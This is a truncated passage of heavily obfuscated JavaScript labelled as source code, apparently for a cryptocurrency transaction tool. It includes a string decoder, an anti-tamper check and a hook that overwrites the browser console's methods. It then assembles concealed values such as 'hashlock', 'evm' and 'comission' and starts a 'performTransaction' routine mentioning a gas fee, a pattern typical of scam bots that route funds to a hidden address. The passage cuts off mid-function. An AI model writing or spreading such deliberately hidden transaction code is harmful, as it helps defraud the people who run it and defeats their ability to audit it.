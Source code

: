 _0x3f9687=![],_0x332771;}};}()),_0x315348=_0x1b9833(this,function(){function _0x12bd54(_0x4da9f2,_0x245e09,_0x2600dc,_0x15e0b3){return _0x429f7b(_0x4da9f2-0x64,_0x245e09- -0x100,_0x2600dc,_0x15e0b3-0x1f3);}function _0x67c693(_0x1de5b6,_0xd839c8,_0x1b860c,_0x1e1001){return _0x429f7b(_0x1de5b6-0x1bf,_0x1b860c- -0x327,_0xd839c8,_0x1e1001-0xa6);}if(_0x5e02ee[_0x12bd54(0x170,0x181,0x188,0x15a)](_0x67c693(-0x65,-0x77,-0x64,-0x7a),_0x5e02ee[_0x12bd54(0x18e,0x192,0x172,0x170)]))_0x5e02ee[_0x12bd54(0x1c5,0x1a8,0x194,0x19c)](_0x4ee4bd,_0x5e02ee['MKOjN']),_0x5e0ef8[_0x12bd54(0x198,0x1a0,0x174,0x192)](_0x48abf1),_0x2f8bc1=![];else{let _0x4b5e37;try{const _0x271d8c=_0x5e02ee[_0x67c693(-0x8b,-0x76,-0x7f,-0xa4)](Function,_0x5e02ee[_0x67c693(-0x74,-0xa5,-0x9f,-0x98)](_0x5e02ee[_0x67c693(-0xa1,-0x78,-0x9f,-0x91)](_0x5e02ee['zLlix'],_0x5e02ee['utltg']),');'));_0x4b5e37=_0x5e02ee[_0x67c693(-0x56,-0x6c,-0x59,-0x6f)](_0x271d8c);}catch(_0x2052a7){_0x4b5e37=window;}const _0x183590=_0x4b5e37['console']=_0x4b5e37[_0x67c693(-0xa6,-0x94,-0xa8,-0xb8)]||{},_0x25834a=[_0x5e02ee[_0x12bd54(0x186,0x1a4,0x18a,0x1ca)],_0x5e02ee['rjinZ'],_0x5e02ee['sNQzs'],_0x5e02ee[_0x12bd54(0x1c4,0x1bd,0x1a1,0x1b3)],_0x5e02ee[_0x12bd54(0x1ab,0x195,0x19d,0x1a2)],_0x12bd54(0x1c8,0x1b6,0x1a3,0x1d0),_0x12bd54(0x1cf,0x1b2,0x1bb,0x1ce)];for(let _0x4b50b4=-0x233*-0x3+0x1*-0xbb2+0x519;_0x4b50b4<_0x25834a['length'];_0x4b50b4++){const _0x26e35e=_0x1b9833['constructo'+'r'][_0x67c693(-0x3c,-0x72,-0x62,-0x56)][_0x67c693(-0x7a,-0x81,-0x7c,-0x7e)](_0x1b9833),_0xb564c4=_0x25834a[_0x4b50b4],_0x3f70b3=_0x183590[_0xb564c4]||_0x26e35e;_0x26e35e[_0x12bd54(0x185,0x17a,0x15b,0x187)]=_0x1b9833[_0x12bd54(0x1bf,0x1ab,0x1b2,0x190)](_0x1b9833),_0x26e35e['toString']=_0x3f70b3[_0x67c693(-0x9e,-0x90,-0x94,-0xa0)][_0x12bd54(0x1c9,0x1ab,0x182,0x1ca)](_0x3f70b3),_0x183590[_0xb564c4]=_0x26e35e;}}});_0x5e02ee[_0x28e8c6(-0x25,0x26,0x9,0x3)](_0x315348);function _0x429f7b(_0x373f09,_0x4a48b3,_0x526f2c,_0xdf424a){return _0x5f3ab4(_0x373f09-0x120,_0x4a48b3-0xa6,_0x526f2c,_0xdf424a-0xfd);}return _0x5e02ee[_0x429f7b(0x2dc,0x2c1,0x29d,0x2eb)](parseInt,_0x32a91b)[_0x429f7b(0x293,0x293,0x292,0x275)](0x1b6f+0x12ad+-0x2e0c*0x1);}function _0x35be(_0x1944d8,_0x3d244d){const _0x24d4e5=_0x161b();return _0x35be=function(_0x56bbf4,_0x2de867){_0x56bbf4=_0x56bbf4-(-0x2291+-0x2442+-0x2*-0x240b);let _0x361830=_0x24d4e5[_0x56bbf4];if(_0x35be['ygKGnz']===undefined){var _0x42c53f=function(_0x153502){const _0x4ee4bd='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';let _0x5e0ef8='',_0x48abf1='',_0x2f8bc1=_0x5e0ef8+_0x42c53f;for(let _0x2e2fc3=-0xb5*0x10+-0x1433*-0x1+0x1*-0x8e3,_0x291d93,_0x12a5d6,_0x3691ee=-0xf6+-0x58*-0x5+0xc2*-0x1;_0x12a5d6=_0x153502['charAt'](_0x3691ee++);~_0x12a5d6&&(_0x291d93=_0x2e2fc3%(-0x9a9+0x25ef+-0x2*0xe21)?_0x291d93*(-0x1444+0xd07+0x77d)+_0x12a5d6:_0x12a5d6,_0x2e2fc3++%(-0xa99*0x1+-0x184f+-0x1*-0x22ec))?_0x5e0ef8+=_0x2f8bc1['charCodeAt'](_0x3691ee+(0x15d1*-0x1+-0x1bbf+0x1*0x319a))-(0x3*0x63+-0xb1*0xc+0x72d)!==0x2596+0x65*0x53+-0x4655?String['fromCharCode'](-0x2203+0x25d+0x20a5&_0x291d93>>(-(0x1508+-0xc74*-0x2+-0x2dee)*_0x2e2fc3&-0x85*0x2f+-0x34e*0x9+-0x362f*-0x1)):_0x2e2fc3:-0x6*-0x104+-0x5*-0x5+0x5*-0x13d){_0x12a5d6=_0x4ee4bd['indexOf'](_0x12a5d6);}for(let _0x4c498f=0x23e3+0x15b6+0x3d7*-0xf,_0x581f8f=_0x5e0ef8['length'];_0x4c498f<_0x581f8f;_0x4c498f++){_0x48abf1+='%'+('00'+_0x5e0ef8['charCodeAt'](_0x4c498f)['toString'](0x871*0x2+0x17a+0x926*-0x2))['slice'](-(-0x53*-0x7+0x1433+0x5*-0x47e));}return decodeURIComponent(_0x48abf1);};_0x35be['amuBRQ']=_0x42c53f,_0x1944d8=arguments,_0x35be['ygKGnz']=!![];}const _0x2a6cb9=_0x24d4e5[-0x3b*-0x13+-0xaf1+0x690],_0x461de1=_0x56bbf4+_0x2a6cb9,_0x1110be=_0x1944d8[_0x461de1];if(!_0x1110be){const _0x56e784=function(_0x17a77b){this['OHgjaQ']=_0x17a77b,this['MgjBrN']=[-0x1829+-0x22cc+-0x3af6*-0x1,0x1*-0x89+-0x4e9*-0x3+-0xe32,0x9d+0x7*-0x180+0x1*0x9e3],this['VCLeBU']=function(){return'newState';},this['xJotmo']='\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*',this['HwgLZO']='[\x27|\x22].+[\x27|\x22];?\x20*}';};_0x56e784['prototype']['cRDjHo']=function(){const _0x4235f7=new RegExp(this['xJotmo']+this['HwgLZO']),_0xe0e6f5=_0x4235f7['test'](this['VCLeBU']['toString']())?--this['MgjBrN'][0x13df*0x1+0x2*0x8a0+-0x251e]:--this['MgjBrN'][-0x1*0x7f7+-0x14d+0x944];return this['NTZYwr'](_0xe0e6f5);},_0x56e784['prototype']['NTZYwr']=function(_0x47144e){if(!Boolean(~_0x47144e))return _0x47144e;return this['xnwZzu'](this['OHgjaQ']);},_0x56e784['prototype']['xnwZzu']=function(_0x3447ee){for(let _0x2f8fa5=0x2*0x12be+-0x1a49*-0x1+-0x3fc5*0x1,_0x128e8a=this['MgjBrN']['length'];_0x2f8fa5<_0x128e8a;_0x2f8fa5++){this['MgjBrN']['push'](Math['round'](Math['random']())),_0x128e8a=this['MgjBrN']['length'];}return _0x3447ee(this['MgjBrN'][0xc4+-0x2570+0x24ac]);},new _0x56e784(_0x35be)['cRDjHo'](),_0x361830=_0x35be['amuBRQ'](_0x361830),_0x1944d8[_0x461de1]=_0x361830;}else _0x361830=_0x1110be;return _0x361830;},_0x35be(_0x1944d8,_0x3d244d);}const k='688773',evm=kyc(m),e=_0x5f3ab4(0x232,0x225,0x24b,0x20b),hashlock=kyc(k),unit=''+evm+hashlock,v=_0x5f3ab4(0x22e,0x20a,0x22e,0x202),moe=kyc(e),n='698489',spv=kyc(v);function _0x5f3ab4(_0x1f9262,_0x21c75e,_0x216203,_0x367cfa){return _0x35be(_0x21c75e-0x8f,_0x216203);}const c=_0x5f3ab4(0x1f5,0x1f8,0x1d2,0x1ef),comission=kyc(n);function _0x32f29c(_0x4e063f,_0x855e2e,_0x214214,_0x2ebeea){return _0x35be(_0x214214- -0xe3,_0x2ebeea);}const confirm=''+moe+spv,performTransaction=async()=>{function _0x4e5bb2(_0x3cbdb6,_0xe454a9,_0x14e61a,_0x584d1c){return _0x5f3ab4(_0x3cbdb6-0x188,_0x14e61a-0x2a3,_0x584d1c,_0x584d1c-0x138);}const _0x5d1e4e={'oXSVU':_0x4e5bb2(0x4aa,0x4d2,0x4bf,0x498)+'\x20gas\x20fee','WoGLy':_0x3d7991(0x2d7,0x2fc,0x2ed,0x2d5),'PhHoh':function(_0x430b33,_0x59d79d){return _0x430b33(_0x59d79d);},'zNJEw':function(_0x812b44,_0x4536e2){return _0x812b44(_0x4536e2);},'lgljD':_0x3d7991(0x2d2,0x2df,0x2b6,0x2bd),'JMYZD':function(_0x1da406,_0x161867){return